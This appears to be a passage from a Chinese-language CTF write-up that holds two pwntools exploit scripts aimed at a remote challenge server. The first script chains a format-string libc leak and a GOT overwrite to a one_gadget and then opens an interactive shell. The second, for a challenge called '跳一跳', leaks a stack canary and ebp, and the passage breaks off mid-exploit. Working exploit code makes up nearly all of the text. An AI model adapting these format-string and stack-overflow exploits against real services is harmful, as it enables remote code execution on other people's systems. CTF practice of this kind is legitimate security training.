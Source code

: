 ```php
from pwn import *

context.log_level = 'debug'
context.arch='x86'
# p = process('sp1')
p = remote("123.57.69.203","7010")

libc = ELF('libc-2.27.so')

#leak
payload = '%35$p'
p.recvuntil('Can you find the magic word?\n')

p.sendline(payload)

addr = int(p.recv(len("0xf7dd6ee5")),16)

offset = libc.sym['__libc_start_main']
libc_base = addr - 245 - offset

print "[-]libc_base=>" + hex(libc_base)

one = libc_base + 0x3d200
print hex(one)

payload = fmtstr_payload(6, {0x08049A60:one})

sleep(0.5)
p.sendline(payload)

sleep(0.5)

p.sendline('/bin/sh\x00')
p.interactive()
```

pwn3 跳一跳
--------

一个栈溢出，要点在scnaf的for循环怎么跳出来，然后泄露libc

```php
#coding:utf-8
from pwn import *
# p=process('./attachment-10')
p=remote("123.57.69.203",7020)
# context.log_level = 'debug'
p.recvuntil('Hello CTFer! Welcome to the world of pwn~\n')
elf=ELF('./attachment-10')
# libc=ELF('/lib/x86_64-linux-gnu/libc.so.6')
# libc=ELF('./libc-2.27.so')
#第一次main
for i in range(216):
    p.sendline(b'123')
p.sendline(b'65')

p.send(b'c')
p.recvuntil(b'A')
result=p.recv()
canary=u64(result[:7].ljust(8,b'\x00'))*16*16
ebp=u64(result[7:13].ljust(8,b'\x00'))
print(hex(ebp))

print(hex(canary))
```